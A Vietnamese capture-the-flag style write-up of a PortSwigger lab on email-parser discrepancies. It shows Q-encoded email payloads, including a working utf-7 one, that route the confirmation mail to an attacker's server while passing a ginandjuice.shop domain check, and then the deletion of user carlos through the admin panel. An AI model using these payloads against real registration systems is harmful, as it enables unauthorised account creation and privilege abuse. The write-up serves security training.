







# Write-up: Bypassing access controls using email address parsing discrepancies

### Tổng quan
Khai thác lỗ hổng trong việc phân tích email, lợi dụng sự khác biệt giữa thư viện phân tích email và logic xác thực tên miền để đăng ký tài khoản với email giả mạo, truy cập admin panel và xóa tài khoản `carlos`.

### Mục tiêu
- Đăng ký tài khoản với email giả mạo và xóa tài khoản carlos.

### Công cụ sử dụng
- Burp Suite Community
- Firefox Browser

### Quy trình khai thác
1. **Thu thập thông tin (Reconnaissance)**
- Truy cập trang đăng ký và thử đăng ký với email `foo@exploit-0a9000c3035427598043169901f90024.exploit-server.net`:
    - **Nhận lỗi**: `Only emails with the ginandjuice.shop domain are allowed`, ứng dụng kiểm tra tên miền email, chỉ cho phép `@ginandjuice.shop`
        
    
- Thử Q encoding để giả mạo tên miền, dựa trên 'whitepaper Splitting the Email Atom':
    - Với `iso-8859-2`: `=?iso-8859-2?q?=61=62=63?=foo@ginandjuice.shop`:
        - **Nhận lỗi**: `Registration blocked for security reasons`
            

    - Với `utf-8`: =?utf-8?q?=61=62=63?=foo@ginandjuice.shop
        - Nhận lỗi tương tự
            

    Với `utf-7`: `=?utf-7?q?&AGEAYgBj-?=foo@ginandjuice.shop` 
        - **Kết quả**: Bỏ qua xác thực tên miền, đăng ký thành công
            

2. **Khai thác (Exploitation)**
- Dùng Q encoding utf-7 để giả mạo email `attacker@exploit-0a9000c3035427598043169901f90024.exploit-server.net`:
    - Mã hóa `@` thành `&AEA-`, khoảng trắng thành `&ACA-`
    - Email: `=?utf-7?q?attacker&AEA-exploit-0a9000c3035427598043169901f90024.exploit-server.net&ACA-?=@ginandjuice.shop`
    - **Giải thích**: Ứng dụng phân tích tên miền là ginandjuice.shop do hậu tố @ginandjuice.shop, nhưng server email giải mã utf-7 thành attacker@exploit-..., gửi email xác nhận đến exploit-server.net
        

- Nhấn link xác nhận trong email để kích hoạt tài khoản `test`:`1111`, xác nhận tài khoản c
- Đăng nhập vào tài khoản `test`:`1111`
    
- Truy cập vào admin panel và xóa tài khoản carlos
        

### Bài học rút ra
- Hiểu cách khai thác sự khác biệt trong phân tích email (parser discrepancies) để bypass kiểm tra tên miền.
- Nhận thức tầm quan trọng của việc đồng bộ logic xác thực và thư viện phân tích email phía server.

### Tài liệu tham khảo
- PortSwigger: Business logic vulnerabilities

### Kết luận
Lab này cung cấp kinh nghiệm thực tiễn trong việc khai thác lỗ hổng phân tích email, sử dụng Q encoding utf-7 để giả mạo tên miền, giành quyền admin và xóa tài khoản. Xem portfolio đầy đủ tại https://github.com/Furu2805/Lab_PortSwigger.

*Viết bởi Toàn Lương, Tháng 5/2025.*